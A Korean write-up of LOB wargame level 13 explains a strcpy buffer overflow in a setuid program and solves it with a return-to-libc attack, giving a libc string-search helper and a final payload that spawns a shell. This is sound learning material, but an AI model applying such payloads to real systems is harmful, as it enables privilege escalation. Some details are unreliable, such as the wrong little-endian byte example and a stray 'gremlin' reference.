 ```yaml
---
title: BOF/ LOB-level13(darkknight)
tags: LOB
---
```


LOB란 The Lord of the BOF의 약자로 Buffer over-flow를 연습해 볼 수 있는 해킹문제이다.    
총 20문제로 구성되어 있으며 각 문제를 격파하여 다음 레벨의 패스워드를 얻는 형식이다.  
문제를 격파하고 다음 레벨의 bash를 획득하였다면 my-pass로 패스워드를 확인할 수 있다.  

 [send me email](mailto:jewel7492@gmail.com) if you have any questions.

<!--more-->

---
### LOB Level 13(darkknight)
**ID : darkknight**  
**PASSWD : new attacker**         

```bash
$ bash2
```
풀이 시작 전에 bash2로 꼭 변경  
**bash는 \xff를 \x00(NULL)로 인식하여 제대로 문제를 풀 수 없다.**  

![그림1](/assets/LOB/level13/1.png)  
사용자 bugbear의 권한의 bugbear파일이 있음을 확인할 수 있다.  
**set-uid가 걸려있으므로 사용자 bugbear의 권한으로 파일을 실행할 수 있다.**  
**bugbear파일이 쉘을 실행시키도록 한다면 사용자 bugbear의 쉘을 획득할 수 있다.**  

<br />
{% highlight C linenos %}  
/*
        The Lord of the BOF : The Fellowship of the BOF
        - bugbear
        - RTL1
*/

#include <stdio.h>
#include <stdlib.h>

main(int argc, char *argv[])
{
        char buffer[40];
        int i;

        if(argc < 2){
                printf("argv error\n");
                exit(0);
        }

        if(argv[1][47] == '\xbf')
        {
                printf("stack betrayed you!!\n");
                exit(0);
        }

        strcpy(buffer, argv[1]);
        printf("%s\n", buffer);
}
{% endhighlight %}  

**bugbear.c**

### 소스분석  
1. argc가 2보다 작다면 "ergv error"을 출력하고 프로그램을 종료한다.  
**argc란? - 파라미터의 개수를 의미한다. 즉 main에 최소 2개이상의 인자를 전달하여야 한다.**  
2. argv[1][47]의 값이 \xbf인 경우 "stack betrayed you!!"를 출력하고 프로그램을 종료한다.  
**기존의 공격에서는 argv[1][44]부터 argv[1][47]까지 buffer의 주소 또는 환경변수의 주소등 스택을 사용하였다.**  
**Stack은 0xbfffxxxx로 시작하기 때문에 Stack의 값을 이용하여 문제를 해결할 수 없다.**  
3. main에 전달받은 인자 argv[1]을 buffer에 복사하여 출력하는 소스(argv[0]은 파일명)  
**strcpy함수는 복사할 데이터의 크기제한이 없기 때문에 argv[1]이 40Byte보다 크다면 buffer-overflow가 발생하는 취약점이 있다.**  

### Solution  
**RTL(Return to Library)기법 사용**  
what is RTL?  
Return To Library 즉 라이브러리로 돌아가라! 라는 의미를 가지고 있다.  
main의 ret에 Library 함수의 주소를 덮는 방법으로 코드에서 사용하지 않는 함수를 실행시킬 수 있으며 인자전달 또한 가능하다.  
**ret에 system함수의 주소를 덮어 system함수가 /bin/sh를 실행하도록 프로그램 흐름을 조작**  

**RTL을 사용하는 이유?**  
DEP(Data Execution Protection)라는 방어기법 때문에 RTL을 사용하는데 DEP란 스택,힙 같은 영역에 있는 코드가  
w권한 x권한을 동시에 갖지않도록 차단하는 기법이다.  


![그림2](/assets/LOB/level13/2.png)  
gdb로 분석할 때 권한으로부터 자유롭기 위해 bugbear를 복사한다.  

### disassemble  

**스택구조를 파악하기 위해 디버깅을 한다.**  
권한문제가 없도록 gremlin를 복사하고 gdb를 사용하여 intel방식으로 디스어셈블 한다.  
![그림3](/assets/LOB/level13/3.png)  
disassemble 결과  
**ESP -= 44의 연산이 이루진 것을 보아 buf(40) + i(4) 의 공간이 푸쉬됨을 알 수 있다. dummy없음**  

스택구조|
---|
i(4Byte)|
buffer(40Byte)|
sfp(4Byte)|
ret(4Byte)| 

![그림4](/assets/LOB/level13/4.png)  
print명령어를 사용해 system함수의 주소를 확인한다.

<br />
{% highlight C linenos %}  
#include <stdio.h>

int main(){
    long sysaddr = 0x40058ae0;
    while(memcmp((void*) sysaddr, "/bin/sh", 8)){
        sysaddr++;
    }

    printf("/bin/sh address : %p\n", sysaddr);
    return 0;
}
{% endhighlight %}  
**sysaddr에 system함수의 주소를 대입하고 memcmp함수를 사용해 system함수의 시작주소부터 /bin/sh를 찾을때까지 반복하는 프로그램을 작성한다.**   
system 함수는 어떤 명령을 실행시킬때 /bin/sh 를 실행시켜 원하는 명령을 실행시킨다. 따라서 /bin/sh를 찾을 수 있는것.  

![그림5](/assets/LOB/level13/5.png)  
작성한 소스를 컴파일하여 실행하면 system함수에 대한 /bin/sh주소를 획득할 수 있다.  

![그림6](/assets/LOB/level13/6.png)  
dummy(4) + 인자(4)  
**system함수로 실행할 명령을 인자로 전달할 때 dummy 4byte와 함께 전달해야함을 알 수 있다.**  

### Attack  

system함수의 주소, /bin/sh의 주소, 스택의 구조를 파악하였으므로 공격을 시도할 수 있다.  
**./bugbear [dummy(44)] + [system주소(4)] + [dummy(4)] + [/bin/sh주소]**의 형태로 공격.  
**쉽게말해 프로그램이 system함수를 실행하도록 공격하는데, system함수가 /bin/sh를 실행하도록 인자를 전달한 것이다.**  
**또한 RET에 덮을 쉘코드의 주소는 리틀 엔디안 방식으로 기입한다.**  

**리틀 엔디안은 최 하위 바이트 부터 저장하는 방식이다.**  
ex) 0xbffffc11을 리틀 엔디안 방식으로 저장하면 11cfffbf가 된다.  
보통 엔디안 방식은 CPU 아키텍쳐에 따라 다르지만 intel x86, x64, AMD 계열은 리틀엔디안, 모토로라 프로세서들은 빅엔디안을 사용한다.  
현재 시스템의 엔디안방식을 확인하고 싶다면 echo -n I | od -to2 | head -n1 | awk'{print $2;}' | cut -c6  
명령으로 나오는 값이 1이라면 리틀 엔디안, 0이라면 빅엔디안이다.  

![그림7](/assets/LOB/level13/7.png)  
**페이로드**  
```bash
./bugbear `python -c "print 'A'*44 + '\xe0\x8a\x05\x40' + 'A'*4 + '\xf9\xbf\x0f\x40'"`
```
공격 성공  